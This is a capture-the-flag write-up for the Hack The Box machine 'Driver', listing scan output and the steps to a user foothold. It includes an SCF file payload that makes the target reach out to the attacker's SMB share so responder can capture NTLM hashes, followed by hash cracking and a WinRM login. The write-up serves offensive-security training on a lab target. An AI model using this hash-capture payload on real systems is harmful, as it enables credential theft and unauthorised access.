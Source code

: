 ```yaml
---
title: "[HTB] Machine: Driver"
description: "[HTB] Machine: Driver"
date: 2023-08-15
menu:
  sidebar:
    name: "[HTB] Machine: Driver"
    identifier: htb-machine-Driver
    parent: htb-machines-windows
    weight: 10
hero: images/driver.png
tags: ["HTB"]
---
```


# Driver
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.11.106 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-17 18:16 BST
Nmap scan report for 10.10.11.106 (10.10.11.106)
Host is up (0.13s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-08-18T00:16:51
|_  start_date: 2023-08-18T00:13:34
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 6h59m24s, deviation: 0s, median: 6h59m23s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.04 seconds

```
- `smb`
  - `enum4linux` had no success 
```
└─$ smbclient -N -L //10.10.11.106
session setup failed: NT_STATUS_ACCESS_DENIED
```
- Port `80`

![](./images/1.png)
![](./images/2.png)

- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.106 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.106
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/08/17 19:01:38 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 401) [Size: 20]
/images               (Status: 301) [Size: 150] [--> http://10.10.11.106/images/]
/Images               (Status: 301) [Size: 150] [--> http://10.10.11.106/Images/]
/Index.php            (Status: 401) [Size: 20]
/IMAGES               (Status: 301) [Size: 150] [--> http://10.10.11.106/IMAGES/]
/INDEX.php            (Status: 401) [Size: 20]

```
## Foothold/User
- From the scren above we saw `WWW-Authenticate` header
  - https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/WWW-Authenticate
  - `A description of the protected area. If no realm is specified, clients often display a formatted hostname instead.`
  - We have our username - `admin`
  - Default `admin:admin` creds work

![](./images/3.png)

- Firmware update page, which states that it uploads firmware to file share
  - Then it is reviewed by the team

![](./images/4.png)

- So we can utilize `.scf` file
  - Check https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#shell-command-files
  - Let's create one

```
[Shell]
Command=2    
IconFile=\\10.10.16.4\anything.exe
```

- Launch `responder`, upload `scf` and wait 
  - And we got `hash`

![](./images/5.png)
![](./images/6.png)

- Let's crack it
  - `hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt`
  - `tony:liltony`

![](./images/7.png)

- Test creds with `crackmapexec`

![](./images/8.png)

- `Evil-Winrm`

![](./images/9.png)

## Root